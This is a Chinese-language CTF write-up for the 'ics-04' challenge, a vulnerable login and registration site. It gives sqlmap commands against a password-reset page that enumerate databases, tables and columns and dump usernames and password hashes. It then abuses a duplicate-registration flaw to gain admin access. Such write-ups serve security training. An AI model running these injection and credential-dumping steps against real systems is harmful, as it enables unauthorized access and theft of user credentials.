# ics-04
## 题目描述
工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。
## 思路
http://220.249.52.133:48064  
点开题目链接，是那张熟悉的图：  
  
直接去注册和登录界面尝试，发现注册页面存在多次注册的漏洞，即相同用户名，可以多次注册，但是没有 sql 注入可利用的点。登录页面似乎也没什么有用的东西，但是在登录页面下，有个忘记密码的按钮：  
  
点进去：  
http://220.249.52.133:48064/findpwd.php  
  
看看能不能从这个页面打开缺口，用 sqlmap 试一下：  
```shell
sqlmap -u "http://220.249.52.133:48064/findpwd.php" --data "username=1" --dbs  
```
看到有一个 cetc004 的数据库，恰好和本页面的标题有重复之处 cetc：  
  
因此，用该数据库继续下一步操作：   
```shell
sqlmap -u "http://220.249.52.133:48064/findpwd.php" --data "username=1" -D cetc004 --tables  
```
看到只有一个 user 表：  
  
继续下一步，查看表中的列：  
```shell
sqlmap -u "http://220.249.52.133:48064/findpwd.php" --data "username=1" -D cetc004 -T user --columns  
```
看到有四列：  
  
我们需要的只是 username 和 password 两列，因此继续下一步操作：  
```shell
sqlmap -u "http://220.249.52.133:48064/findpwd.php" --data "username=1" -D cetc004 -T user -C "username,password" --dump  
```
可以看到，有一个从来没注册过的用户名：  
  
并且在攻击过程中，发现密码经过 md5 处理过，只不过最终这个奇怪用户的密码没有被解析出来：  
  
看到有两个 admin，并且题目描述中说了注册页面有漏洞，不如试试重复注册，重新注册一个 c3tlwDmIn23 用户，然后登录：  
  
***
还好获得 flag，不然我都想去爆破他的 answer 和 question 列了：  
```shell
sqlmap -u "http://220.249.52.133:48064/findpwd.php" --data "username=1" -D cetc004 -T user -C "username,answer,question" --dump  
```
这样在找回密码后，应该能进行原用户登录吧：  
  
这特么还要原始密码？？？神经病啊？？我要是能记得原始密码，还找回密码干嘛？？？  
  
佛了，此路不通，只能利用注册页面的二次注册的漏洞来解这道题：  
  
